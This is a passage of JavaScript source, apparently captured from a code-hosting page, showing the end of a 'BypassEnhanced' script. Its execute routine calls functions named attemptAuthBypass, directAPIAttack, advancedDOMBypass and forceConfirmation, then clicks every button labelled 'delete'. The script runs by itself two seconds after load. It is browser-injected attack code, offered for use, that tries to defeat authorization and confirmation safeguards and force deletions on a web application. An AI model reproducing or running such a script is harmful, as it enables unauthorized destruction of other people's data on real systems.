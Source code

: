 ```javascript
            this.analyzeAndModifyRequest();
            this.attemptAuthBypass();
            
            // Find and open modal
            const modal = await this.findAndOpenModal();
            if (!modal) {
                console.log('❌ Could not find delete modal');
                // Try direct API attack
                return await this.directAPIAttack();
            }
            
            // Fill inputs
            this.findAndFillInputs();
            
            // Advanced DOM bypass
            this.advancedDOMBypass();
            
            // Force confirmations
            this.forceConfirmation();
            
            // Wait and retry
            await this.wait(2000);
            
            // Click all delete buttons
            document.querySelectorAll('button').forEach(btn => {
                if (btn.textContent.toLowerCase().includes('delete')) {
                    console.log('Clicking:', btn.textContent);
                    btn.click();
                }
            });
            
            console.log('✅ Enhanced bypass complete');
        },
        
        // Utility
        wait: function(ms) {
            return new Promise(resolve => setTimeout(resolve, ms));
        }
    };
    
    // Auto-execute or manual
    window.BypassEnhanced = BypassEnhanced;
    
    // Auto-run after 2 seconds
    setTimeout(() => {
        BypassEnhanced.execute();
    }, 2000);
    
    console.log('💡 Manual execution: window.BypassEnhanced.execute()');
    
})();
```

---